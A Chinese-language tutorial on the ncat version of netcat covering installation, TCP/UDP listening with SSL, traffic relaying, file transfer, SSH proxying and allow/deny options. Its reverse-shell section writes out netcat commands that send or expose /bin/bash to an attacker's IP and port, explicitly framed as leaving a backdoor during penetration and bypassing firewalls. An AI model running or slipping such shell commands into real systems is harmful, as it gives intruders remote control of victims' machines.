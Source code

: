 ## nmap-netcat(nc)

nc 是由 C 编写的非常强悍的网络工具，`nc` 主要有 4 个版本，gnu nc （2004 年停止维护，也叫 nc traditional）， openbsd nc（重写了 gnu nc，在正常维护），nmap-netcat（也叫 ncat，由 nmap 重写 nc traditional，被称为 21 世纪的 netcat，也是功能最多的 nc）。

下面我介绍的就是 nmap-netcat，出现的不论是 `nc` 还是 `ncat` 请一律当 `ncat` 处理，因为部分在 CentOS 上执行，CentOS上的 `nc` 就是 `ncat`。

## 安装

https://nmap.org/download ，ncat 集成在 nmap 中，可以通过安装 nmap 获取 ncat 。

### Centos / RedHat

```zsh
yum install nc
```

名字就是 nc，但是安装的时候能看到安装的是 nmap-netcat。

### Archlinux

```zsh
sudo pacman -S nmap
```

archlinux 通过装 nmap 会附带上 ncat（即 nc）。

## 功能介绍

### 端口扫描

`ncat` 没有端口扫描（但是 openbsd nc 有），谁让它是由 nmap.org 重写的呢，`nmap` 本身就可以说是命令行工具中的端口扫描这块做的最好的，所以集成在 `nmap` 中的 `ncat` 没有必要还带端口扫描功能，端口扫描直接用 nmap。

### TCP/UDP 通信

```zsh
# -l 表示监听，-p 指定端口，-v 表示会输出详细信息(-vv, -vvv 可以更详细)
# 默认是监听 tcp 。
ncat -lvp 1589
```

```zsh
# 唯一跟上面不同的就是这次监听的是 udp 。
ncat -lvup 1589
```

可以按 [mkcert](https://m4n5ter.github.io/linux/mkcert/mkcert.html) 生成自签证书。

```zsh
# 使用 ssl 来加密通信（否则是明文的，统一网络的人可以轻松嗅探到传输内容）
# --ssl-key，--ssl-cert 可以手动指定证书，--ssl 是生成并使用一个临时证书
ncat --ssl -lvp 1589
```

```zsh
# 如果监听端使用了 --ssl 那么客户端也需要。
 ncat --ssl -nv <IP Address> 1589
```

成功建立通信后可以直接在命令行输入字符来进行通信，会像聊天一样。

### 流量转发

流量转发可以用很多姿势，这里我用一个比较容易理解的姿势：

```zsh
# 目标机器
nc -lvvp 1665
# 中间负责转发的机器。-c 表示连接后直接用 sh 执行 -c 的内容。
# 这里是表示连接到达中间服务器后，中间服务器再连接目标服务器，从而实现流量转发
nc -lvvp 1589 -c 'nc -nv <目标机器 IP> <端口>'
# 客户端
nc -nv <中间机器 IP> <中间机器端口>
```

这样操作后，当客户端执行时，流量走向为：

```
客户端 -> 中间机器 IP:PORT -> 目标机器 IP:PORT
```

### 发送文件

既然都能通信了，那么发文件也是理所应当的，传文件本质也是流量传输。

```zsh
# 提供文件的机器，这样表示建立连接后把 temp.txt 的内容发送过去
nc -lvvp 1665 < temp.txt
# 需要获取文件的机器，这样与目标建立连接后，把它发过来的内容重定向到一个文件中
nc -nv <IP> <PORT> > out.txt
```

方向换一下也是同理：

```zsh
# 接收文件的机器
nc -lvvp 1665 > out.txt
# 发送文件的机器
nc -nv <IP> <PORT> < temp.txt
```

### 反弹 Shell

这个一般用于渗透时留后门，主要是利用 `nc` 的 `-c` 和 `-e` 。

```zsh
# 让客户端发送自己的 shell 给 <IP> <PORT>
# 客户端，这样 <IP> <PORT> 被监听时就会拿到客户端的 shell
# 后续 <IP> <PORT> 要再转发还是什么都可以自由操作
nc -nv <IP> <PORT> -e /bin/bash
-or
nc -nv <IP> <PORT> -c bash
```

```zsh
# 客户端开启一个端口，在这个端口上直接暴露自己的 shell
nc -lp 6666 -e /bin/bash
```

如果用于渗透，受害者一般是内网环境，所以都是用的第一种，主动发送 shell 给攻击者。第二种需要攻击者能访问到受害者的 ip:port 才行。加上一般都有防火墙阻拦，受害者的入站流量可能会被防火墙拦截，但是防火墙一般不会对出站流量有限制，这也是第一种方式的用的比较多的原因。

如果攻击者没有能让受害者访问到的 IP，一般通过内网穿透即可解决。

### SSH 代理

~/.ssh/config

```zsh
Host github.com
  ProxyCommand ncat --proxy 127.0.0.1:10808 --proxy-type socks5  %h %p
```

这样对 github 仓库进行 `git pull` `git push` 这样的操作都会走代理。

  `--proxy` 和 `--proxy-type` 可以让 `ncat` 摇身一变为一个代理工具。

### `--allow` / `--allowfile`

限制可以连接到 `ncat`（`nc`） 的 hosts，可以指定一些 IP，来做到只允许指定目标连接。

### `--deny` / `--denyfile`

与上面的相反，它是拒绝。

## 更多功能请自行探索

`ncat` 提供了许多功能，这些功能可以相互组合，或者配合其它东西来使用，能玩出的花样是非常多的。
